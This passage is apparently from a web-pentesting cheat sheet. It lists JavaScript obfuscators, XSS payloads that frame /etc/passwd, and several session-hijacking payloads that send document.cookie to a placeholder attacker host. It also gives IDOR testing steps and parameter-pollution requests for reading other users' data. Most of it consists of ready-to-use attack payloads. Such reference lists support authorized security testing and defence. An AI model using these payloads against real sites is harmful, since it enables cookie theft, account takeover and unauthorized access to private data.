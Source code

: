 -> jjencode  
https://utf-8.jp/public/jjencode.html   
-> aaencode  
https://utf-8.jp/public/aaencode.html  
-> jsfuck  
http://www.jsfuck.com/  
-> Xchars.js  
https://syllab.fr/projets/experiments/xcharsjs/5chars.pipeline.html  

### Decoder - Obfuscation (Javascript Decoder and PHP)

https://malwaredecoder.com/  

### XSS to LFI

```
<img src=x onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>
```

### XSS - Session Hijacking

- Examples

```
<script>new Image().src="http://<IP>/ok.jpg?output="+document.cookie;</script>
<script type="text/javascript">document.location="http://<IP>/?cookie="+document.cookie;</script>  
<script>window.location="http://<IP>/?cookie="+document.cookie;</script>
<script>document.location="http://<IP>/?cookie="+document.cookie;</script>  
<script>fetch('http://<IP>/?cookie=' + btoa(document.cookie));</script>  
```

### Template - Nuclei

https://raw.githubusercontent.com/esetal/nuclei-bb-templates/master/xss-fuzz.yaml

## Broken Access Control

### IDOR (Insecure Direct Object References)

1. Search listing of Id's in requests and in case you don't find create at least two accounts and analysis requests involving ID's  
2. Identify access controls in the application  
3. Change the request method (GET, POST, PUT, DELETE, PATCH…)  
4. search old versions of API's /api/v1/ /api/v2/ /api/v3/  
5. Try sending a (*) instead of the ID, especially at search points  
6. Brute-force IDs depending on context and predictability


#### HTTP Parameter Pollution

```
GET /api/v1/messages?id=<Another_User_ID> # unauthourized
GET /api/v1/messages?id=<You_User_ID>&id=<Another_User_ID> # authorized
GET /api/v1/messages?id[]=<Your_User_ID>&id[]=<Another_User_ID>
```
